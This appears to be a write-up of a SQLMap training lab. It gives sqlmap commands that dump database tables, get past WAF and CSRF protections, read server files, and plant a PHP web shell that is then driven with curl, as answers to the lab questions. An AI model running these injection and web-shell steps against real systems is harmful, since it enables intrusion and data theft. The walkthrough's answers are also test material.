 # [HTB_Academy] SQLMap Essentials


## Running SQLMap on an HTTP Request

>**Q. What's the contents of table flag2? (Case #2)**
```bash
sqlmap 'http://94.237.62.6:47094/case2.php' --data 'id=1' --batch --dump
```
>**Q. What's the contents of table flag3? (Case #3)**
```bash
sqlmap -u "http://94.237.62.6:47094/case3.php" --cookie='id=1*' --batch --dump
```
>**Q. What's the contents of table flag4? (Case #4)**
```xml
<?xml version="1.0"?>
<!DOCTYPE items [
<!ELEMENT items (item*)>
<!ATTLIST items burpVersion CDATA "">
<!ATTLIST items exportTime CDATA "">
<!ELEMENT item (time, url, host, port, protocol, method, path, extension, reque>
<!ELEMENT time (#PCDATA)>
<!ELEMENT url (#PCDATA)>
<!ELEMENT host (#PCDATA)>
<!ATTLIST host ip CDATA "">
<!ELEMENT port (#PCDATA)>
<!ELEMENT protocol (#PCDATA)>
<!ELEMENT method (#PCDATA)>
<!ELEMENT path (#PCDATA)>
<!ELEMENT extension (#PCDATA)>
<!ELEMENT request (#PCDATA)>
<!ATTLIST request base64 (true|false) "false">
<!ELEMENT status (#PCDATA)>
<!ELEMENT responselength (#PCDATA)>
<!ELEMENT mimetype (#PCDATA)>
<!ELEMENT response (#PCDATA)>
<!ATTLIST response base64 (true|false) "false">
<!ELEMENT comment (#PCDATA)>
]>
<items burpVersion="2023.1.2" exportTime="Fri Jul 14 10:53:44 CEST 2023">
  <item>
    <time>Fri Jul 14 10:52:04 CEST 2023</time>
    <url><![CDATA[http://94.237.62.6:47094/case4.php]]></url>
    <host ip="94.237.62.6">94.237.62.6</host>
    <port>47094</port>
    <protocol>http</protocol>
    <method><![CDATA[POST]]></method>
    <path><![CDATA[/case4.php]]></path>
    <extension>php</extension>
    <request base64="true"><![CDATA[UE9TVCAvY2FzZTQucGhwIEhUVFAvMS4xDQpIb3N0OiA>
    <status>200</status>
    <responselength>455</responselength>
    <mimetype>HTML</mimetype>
    <response base64="true"><![CDATA[SFRUUC8xLjEgMjAwIE9LDQpEYXRlOiBGcmksIDE0IE>
    <comment></comment>
  </item>
</items>
```
```
The technique characters BEUSTQ refers to the following:

B: Boolean-based blind
E: Error-based
U: Union query-based
S: Stacked queries
T: Time-based blind
Q: Inline queries

```

```bash
sqlmap -r case4.txt -p id --dump
```

## Attack Tuning

>**Q. What's the contents of table flag5? (Case #5)**

```bash
sqlmap 'http://94.237.62.6:47094/case5.php?id=1' --batch --dump -T flag5 --no-cast --level=5 --risk=3
```

>**Q. What's the contents of table flag6? (Case #6)**

```bash
sqlmap 'http://94.237.62.6:47094/case6.php?col=id' --prefix='`)' -p col --batch --dump -T flag6 --no-cast --level=5 --risk=3
```

>**Q. What's the contents of table flag7? (Case #7)**

```bash
sqlmap 'http://94.237.62.6:47094/case7.php?id=1' --batch --dump -T flag7 --no-cast --union-cols=5
```

## Database Enumeration

>**Q. What's the contents of table flag1 in the testdb database? (Case #1)**

```bash
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' -p id -D testdb --tables
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' -p id -D testdb -T flag1 --dump
```

## Advanced Database Enumeration

>**Q. What's the name of the column containing "style" in it's name? (Case #1)**

```bash
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' --search -C "style"
```

>**Q. What's the Kimberly user's password? (Case #1)**

```bash
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' --dump -D testdb -T users -C name,password --no-cast
```

## Bypassing Web Application Protections

>**Q. What's the contents of table flag8? (Case #8)**

```bash
sqlmap -u "http://94.237.62.6:47094/case8.php" --data="id=1&t0ken=H9AemyR5JmWEZHQhjzVoyE3Q6gc9VMkaezSfg6qIEs" --csrf-token="t0ken" --batch --dump -T flag8
```
 
>**Q. What's the contents of table flag9? (Case #9)**

```bash
sqlmap -u "http://94.237.62.6:47094/case9.php?id=1&uid=1898023378" --randomize=uid --batch --dump -T flag9
```

>**Q. What's the contents of table flag10? (Case #10)**

```bash
sqlmap -u "http://94.237.62.6:47094/case10.php" --data="id=1" --batch --dump -T flag10 --random-agent
```

>**Q. What's the contents of table flag11? (Case #11)**

```bash
sqlmap -u "http://94.237.62.6:47094/case11.php?id=1" --skip-waf --batch --dump -T flag11 --tamper=between
```

## OS Exploitation

>**Q. Try to use SQLMap to read the file "/var/www/html/flag.txt".**

```bash
sqlmap -u "http://94.237.62.37:45885/?id=1" --file-read "/var/www/html/flag.txt"
cat /home/marcos/.local/share/sqlmap/output/94.237.62.37/files/_var_www_html_flag.txt
```

>**Q. Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.**

```bash
sudo nano shell.php  
```

```php
echo '<?php system($_GET["cmd"]); ?>'
```

```bash
sudo chmod +x shell.php
sqlmap -u "http://94.237.62.37:45885/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
curl http://94.237.62.37:45885/shell.php?cmd=cat+../../../flag.txt
[/htb]$ sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```

## Skills Assessment

>**Q. What's the contents of table final_flag?**

```bash
sqlmap -r final.txt --batch --dump --no-cast --tamper=between --dbs
sqlmap -r final.txt --batch --dump --no-cast --tamper=between --dbs -D production -T final_flag
```
